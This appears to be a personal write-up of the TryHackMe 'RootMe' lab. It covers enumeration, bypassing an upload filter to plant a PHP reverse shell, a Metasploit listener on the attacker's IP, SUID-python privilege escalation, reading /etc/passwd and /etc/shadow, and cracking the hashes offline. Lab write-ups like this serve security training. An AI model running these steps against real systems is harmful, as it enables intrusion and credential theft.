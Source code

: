 ## TryHackMe - RootMe
> Completed 14th June  2022.

This ended up being a very straight forward boot2root box that required skills that I had picked up on in previous labs. I used this as n opportunity to reinforce some of which I had learned.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Metasploit
- JohnTheRipper

---
### Methodology
#### Objectives/Flags
1. user.txt
2. root.txt

---
#### Reconnaissance
Started off by enumerting the target.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As a webserver was running, I navigated to it in a web browser to see what it's about and what can I further enumerate. While browsing the site's source code I ran `Gobuster` in the background to fuzz out directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP> -w <Wordlist> > <output.txt>
```
```
//uploads             (Status: 301) [Size: 314] [--> http://<TargetIP>/uploads/]
//panel               (Status: 301) [Size: 312] [--> http://<TargetIP>/panel/]  
```

![](/TryHackMe/RootMe/images/Root_001.jpg)
![](/TryHackMe/RootMe/images/Root_002.jpg)

As these two directories were revealed, navigating to them showed me that the site is capable of file uploads and that the upload directory could be accessed. I got to work preparing a reverse shell using metasploit.

#### Weaponization 
N/A

#### Delivery
The reverse shell code I used can be found [here](https://github.com/pentestmonkey/php-reverse-shell). My initial thought was that if the site uses `.php` files as webpages, I should be successful in getting a reverse shell connection if my rshell payload was also in `.php`. While poking at the upload form, we can see that `.php` files are forbidden from being uploaded via extension filtering. Using what I had learned back in my run through [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md)I renamed the file extension to `.phphtml` as first attempt to bypass the filter. The upload was successful.

![](/TryHackMe/RootMe/images/Root_003.jpg)
![](/TryHackMe/RootMe/images/Root_004.jpg)

#### Exploitation
With a successful upload, I was able to see my reverse shell file in the site's upload file directory. I started up `Metasploit` to get a listener going.
```bash
sudo msfdb init && msfconsole
  use exploit/multi/handler
  set lhost <AttackerIP>
  set lport <AttackerListeningPort>
  run
```
From here I could execute the payload through the site which successfully establishes a connection to my listener.
```bash
$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
At this point I started walking the file directory of the box hoping to find some loot.
```bash
cd /var/www/html/
  cat user.txt
    THM{***}
```
I had found my first flag in the web-app's directory. While I was here, I decided to exfiltrate `Website.zip` to my local machine to not only see if I could find anything of interest but perhaps reverse engineer and repurpose in the future. Additional directory exploring revealed that the user `www-data` had access to `passwd` which I copy+pasted onto my localhost.
```bash
cat /etc/passwd
```
As I didn't have the correct permissions to view `/etc/shadow` I started to search for binary manipulations that could escalate my viewing privileges. The box's walkthrough recommended [GTFObins](https://gtfobins.github.io/gtfobins/python/) which was a new resource for me. After some research I found that by running a command through python we could manipulate our session to give us a higher viewing privilege.
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
![](/TryHackMe/RootMe/images/Root_005.jpg)
From here we could now view the shadow file which I also copy+psdyrf onyo my localhost.
```bash
cat /etc/shadow
```
Later in my exploration of the system I had found indications that `JohnTheRipper` was installed. I tried to dig through its files to see if there was past use recorded however yielding nothing, I decided to use it on my local machine to reduce my footprint. For the wordlist I used `rockyou.txt`.
![](/TryHackMe/RootMe/images/Root_006.jpg)
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=<wordlist> unshadow.txt > <output.txt>
```
After a short while the passwords are revealed for user `root` and `test`. I could now login as a root.
```bash
su
  su: must be run from a terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Trying to run `su` wasn't going to work as we had manipulated our session to be `sh`. By using a command, we had previously learned, we can re manipulate the session to be a `bash` terminal.
```bash
su
  su
  Password: P**********
root@rootme:/#
root@rootme:/# id
  uid=0(root) gid=0(root) groups=0(root)
```
We are now successfuly logged in as the `root` user and we could now loot the final flag.
```bash
root@rootme:/# cat /root/root.txt
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
After completing this box in less time than some other boxes I felt I was reinforcing my knowledge for the boot2root process. New things I learned specifically was just additional vectors for privilege-escalation which were tricky to get my head around but manipulating binaries is all it takes. I'll hold onto [GTFObins](https://gtfobins.github.io/) as a future resource.

#### What I would've done differently
If I was to take on this box again, I would like to have a better understanding of why the `python` binary could be manipulated in such a way and develop a method to prove the vulnerability by checking for versions etc.
